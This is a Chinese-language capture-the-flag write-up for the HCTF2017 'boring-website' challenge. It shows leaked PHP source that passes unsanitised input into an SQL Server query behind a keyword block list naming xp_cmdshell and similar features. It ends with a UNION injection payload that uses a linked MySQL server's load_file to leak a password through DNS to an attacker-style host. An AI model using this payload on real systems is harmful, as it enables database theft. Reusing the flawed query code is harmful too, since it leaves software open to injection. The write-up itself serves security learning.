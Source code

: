 # HCTF2017-boring-website


首先扫目录发现有www.zip,下载并打开发现是源码

```php
<?php
echo "Bob received a mission to write a login system on someone else's serve
r, and he he only finished half of the work<br />";
echo "flag is hctf{what you get}<br /><br />";
error_reporting(E_ALL^E_NOTICE^E_WARNING);
try {
$conn = new PDO( "sqlsrv:Server=*****;Database=not_here","oob", "");
}
catch( PDOException $e ) {
die( "Error connecting to SQL Server".$e->getMessage() );
}
#echo "Connected to MySQL<br />";
echo "Connected to SQL Server<br />";
$id = $_GET['id'];
if(preg_match('/EXEC|xp_cmdshell|sp_configure|xp_reg(.*)|CREATE|DROP|declare
|if|insert|into|outfile|dumpfile|sleep|wait|benchmark/i', $id)) {
die('NoNoNo');
}
$query = "select message from not_here_too where id = $id"; //link server: O
n linkname:mysql
$stmt = $conn->query( $query );
if ( @$row = $stmt->fetch( PDO::FETCH_ASSOC ) ){
//TO DO: ...
//It's time to sleep...
}
?>

```
发现应该是`sql server`用`linkserver`来连接`mysql`。所以去查了一波`linkserver`的用法，以及结合注释可得`select * from openquery(mysql,'select xxx')`可以从mysql数据库中查得信息，但是没有回显，sleep函数也被ban了，然后看到`oob`的提示，去查了一波`mysql out-of-band`，发现`load_file`函数可以通过dns通道把所查得的数据带出来。接下来的过程就是十分常见简单的mysql注入的流程。
最终的payload: `/?id=1 union select * from openquery(mysql,'select load_file(concat("\\\\",(select password from secret),".hacker.site\\a.txt"))')`

dnslog 平台可以自己搭也可以用ceye

[mysql out of band](http://www.mottoin.com/96463.html)
